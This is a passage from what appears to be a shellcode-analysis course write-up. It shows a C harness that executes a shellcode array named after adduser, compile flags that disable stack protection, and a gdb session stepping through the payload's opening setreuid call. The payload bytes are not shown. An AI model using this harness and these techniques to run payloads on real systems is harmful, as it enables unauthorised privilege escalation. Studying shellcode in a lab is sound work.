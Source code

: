 &gt; #include &lt;string.h&gt;
&gt;
&gt; unsigned char shellcode[] = $(cat adduser.c | grep -v unsigned | sed 's/"//g;s/;//g;' | sed ':a;N;$!ba;s/\n//g;s/^/"/;s/$/"/' ) ;
&gt;
&gt; int main()
&gt; {
&gt; printf("Shellcode Length: %d\n", strlen(shellcode));
&gt; int (*ret)() = (int(*)()) shellcode;
&gt; ret();
&gt; }
&gt; EOF</pre>
<p style="text-align:justify;">Afterwards we will compile the C file above in order to create the executable.</p>
<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 14px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;"><span style="color:#cd0000;"><b>root@kali</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment5</b></span># gcc -fno-stack-protector -g -z execstack -m32 -o shellcode shellcode.c</pre>
<p style="text-align:justify;">Now we are ready to run the above executable file with <strong>gdb.&nbsp;</strong></p>
<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 14px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;"><span style="color:#cd0000;"><b>root@kali</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment5</b></span># gdb -q ./shellcode
Reading symbols from ./shellcode...
gdb-peda$ b *&amp;shellcode
Breakpoint 1 at 0x4040
gdb-peda$ r
Starting program: /root/Documents/SLAE/Assignment5/shellcode
Shellcode Length:  40
[----------------------------------registers-----------------------------------]
EAX: 0x404040 --&gt; 0xcb89c931
EBX: 0x404000 --&gt; 0x3efc
ECX: 0x7fffffea
EDX: 0xb7fb0010 --&gt; 0x0
ESI: 0xb7fae000 --&gt; 0x1d6d6c
EDI: 0xb7fae000 --&gt; 0x1d6d6c
EBP: 0xbffff508 --&gt; 0x0
ESP: 0xbffff4ec --&gt; 0x4011f9 (&lt;main+80&gt;:   mov    eax,0x0)
EIP: 0x404040 --&gt; 0xcb89c931
EFLAGS: 0x286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x40403a:    add    BYTE PTR [eax],al
   0x40403c:    add    BYTE PTR [eax],al
   0x40403e:    add    BYTE PTR [eax],al
=&gt; 0x404040 :    xor    ecx,ecx
   0x404042 &lt;shellcode+2&gt;:    mov    ebx,ecx
   0x404044 &lt;shellcode+4&gt;:    push   0x46
   0x404046 &lt;shellcode+6&gt;:    pop    eax
   0x404047 &lt;shellcode+7&gt;:    int    0x80
[------------------------------------stack-------------------------------------]
0000| 0xbffff4ec --&gt; 0x4011f9 (&lt;main+80&gt;:  mov    eax,0x0)
0004| 0xbffff4f0 --&gt; 0x1
0008| 0xbffff4f4 --&gt; 0xbffff5b4 --&gt; 0xbffff702 ("/root/Documents/SLAE/Assignment5/shellcode")
0012| 0xbffff4f8 --&gt; 0xbffff5bc --&gt; 0xbffff72d ("SHELL=/bin/bash")
0016| 0xbffff4fc --&gt; 0x404040 --&gt; 0xcb89c931
0020| 0xbffff500 --&gt; 0xbffff520 --&gt; 0x1
0024| 0xbffff504 --&gt; 0x0
0028| 0xbffff508 --&gt; 0x0
[------------------------------------------------------------------------------]